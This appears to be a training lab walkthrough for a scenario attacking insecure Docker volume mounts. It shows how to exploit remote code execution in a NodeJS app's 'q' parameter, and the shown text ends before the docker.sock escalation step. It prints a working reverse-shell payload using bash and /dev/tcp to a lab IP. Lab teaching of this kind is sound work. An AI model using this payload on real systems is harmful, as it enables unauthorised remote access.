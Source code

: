 # Attacking insecure volume mounts - Scenario

In this scenario we will be exploiting a NodeJS application using remote code execution to gain a reverse shell. Then we will use the volume mounted `docker.sock` to gain privileges in the host system with docker runtime.

* The application is running at CTF VM. You can access it by navigating to `http://CTFVMIP`

![node app home page](images/insecure-mount-node-app.png)

* This NodeJS application is vulnerable to remote code execution (RCE) in `q` GET parameter. Access the endpoint using `http://CTFVMIP/?q="docker"`

![vulnerable parameter](images/insecure-mount-vulnerable-parameter.png)

* To exploit this RCE, we will be using below payload. Here `192.168.56.3` need to replace with your student VM IP

```bash
require("child_process").exec('bash -c "bash -i >%26 /dev/tcp/192.168.56.3/5555 0>%261"')
```